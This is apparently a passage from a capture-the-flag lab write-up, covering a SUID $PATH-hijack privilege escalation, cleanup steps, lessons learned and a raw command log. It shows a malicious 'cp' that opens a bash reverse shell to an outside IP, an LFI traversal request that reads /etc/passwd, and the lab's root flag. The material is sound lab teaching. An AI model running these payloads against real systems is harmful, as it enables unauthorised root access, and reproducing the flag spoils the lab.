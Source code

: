 ### SUID path hijack → root
ls -la ~/secret/backup  
# -rwsr-xr-x 1 root root 16904 Nov 18  2020 backup

`$PATH` includes `/tmp` first:
echo $PATH  
# /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp

Create malicious `cp` and execute the SUID binary:
cat > /tmp/cp << 'EOF'  
#!/bin/bash  
bash -c 'bash -i >& /dev/tcp/10.9.0.125/4444 0>&1'  
EOF  
chmod +x /tmp/cp  
~/secret/backup  
nc -lvnp 4444  
# → root

Root proof:  
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}

---

## Post-Exploitation & Cleanup
• Remove poisoned log entries / uploaded artifacts if rules allow.  
• Restore `/opt/helloworld.sh` to original state.  
• Remove `/tmp/cp` and any reverse shells.

---

## Lessons Learned
• LFI often pivots to RCE via **log poisoning** when PHP is evaluated from logs.  
• World-writable, cron-executed scripts are low-hanging fruit for lateral ↦ vertical moves.  
• SUID binaries that use relative paths are vulnerable to **$PATH hijacking**.

---

## Command Log (raw)
export target=10.201.37.81  
rustscan --ulimit 5000 -a $target -- -sC -sV -Pn -oN nmap_full  
ffuf -c -u http://$target/FUZZ -w /usr/share/wordlists/dirb/big.txt -r -ac  

# LFI test  
curl 'http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//..//..//..//..//..//etc/passwd'  
